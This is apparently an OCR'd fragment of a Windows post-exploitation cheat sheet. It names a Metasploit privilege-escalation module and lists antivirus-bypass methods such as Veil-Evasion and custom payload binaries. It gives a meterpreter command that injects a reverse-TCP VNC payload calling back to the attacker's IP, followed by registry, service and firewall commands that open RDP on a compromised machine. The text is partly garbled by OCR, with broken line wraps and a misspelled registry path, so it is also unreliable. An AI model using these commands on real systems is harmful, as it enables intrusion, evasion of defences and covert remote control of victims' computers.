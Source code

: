 exploit/windows/local/always\_install\_elevated

## **Bypassing AV**

- Use Veil-Evasion
- Create your own executable by &quot;compiling&quot; PowerShell scripts
- Use Metasploit to substitute custom EXE and MSI binaries. You can set EXE::Custom or MSI::Custom to point to your binary prior to executing the module.

## **Getting GUI**

+  **Using meterpreter, inject vnc session** :

run post/windows/manage/payload\_inject payload=windows/vncinject/reverse\_tcp lhost=\&lt;yourip\&gt; options=viewonly=false

+  **Enable RDP** :

netsh firewall set service RemoteDesktop enable

reg add &quot;HKEY\_LOCAL\_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server&quot; /v fDenyTSConnections /t

REG\_DWORD /d 0 /f

reg add &quot;hklm\system\currentControlSet\Control\Terminal Server&quot; /v &quot;AllowTSConnections&quot; /t REG\_DWORD /d 0x1 /f

sc config TermService start= auto

net start Termservice

netsh.exe

firewall

add portopening TCP 3389 &quot;Remote Desktop&quot;

OR:

netsh.exe advfirewall firewall add rule name=&quot;Remote Desktop - User Mode (TCP-In)&quot; dir=in action=allow

program=&quot;%%SystemRoot%%\system32\svchost.exe&quot; service=&quot;TermService&quot; description=&quot;Inbound rule for the

Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon&#39;s script&quot; enable=yes

profile=private,domain localport=3389 protocol=tcp

netsh.exe advfirewall firewall add rule name=&quot;Remote Desktop - User Mode (UDP-In)&quot; dir=in action=allow

program=&quot;%%SystemRoot%%\system32\svchost.exe&quot; service=&quot;TermService&quot; description=&quot;Inbound rule for the

Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon&#39;s script&quot; enable=yes
